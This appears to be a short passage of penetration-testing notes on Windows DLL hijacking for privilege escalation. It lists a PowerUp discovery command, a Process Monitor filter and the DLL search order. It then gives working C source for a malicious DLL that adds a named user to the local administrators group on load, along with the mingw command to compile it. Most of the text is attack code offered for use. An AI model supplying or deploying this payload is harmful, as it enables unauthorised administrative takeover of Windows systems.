 **PowerUp**
```powersploit
Find-ProcessDLLHijack -ExcludeWindows -ExcludeProgramFiles -ExcludeOwned
```
**Process Monitor** (filter: path ends with .dll, result NAME NOT FOUND)
- [ ] Service with Administrative privileges
- [ ] Run, stop, restart service permission
- [ ] Writeable Directory
Search order:
- Directory application is in
- System directory, C:\Windows\System32
- 16-bit system directory, C:\Windows\System
- Current working directory
- PATH environment variables
```C
#include <windows.h> 

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) { 

	if (dwReason == DLL_PROCESS_ATTACH) { 
		system("cmd.exe /k net localgroup administrators Hiep /add"); 
		ExitProcess(0); 
	} 
	return TRUE; 
}
```
Compiling DLL
```bash
x86_64-w64-mingw32-gcc windows <input file> -shared -o <output>
```